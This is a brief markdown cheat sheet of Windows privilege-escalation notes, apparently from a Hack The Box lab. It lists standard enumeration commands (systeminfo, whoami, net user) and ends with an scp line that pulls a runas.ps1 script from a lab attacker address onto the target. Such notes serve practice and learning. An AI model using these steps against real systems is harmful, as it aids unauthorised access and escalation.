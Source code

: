 ## Windows privilege Escalation

Get System information

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Find username

```
echo %username%
whoami
net users
```

Get information about specific user

```
whoami /all
net user <username>
```

Upload files to server

```
scp 10.10.14.72:/home/hackguru/htb/worker/runas.ps1 .
```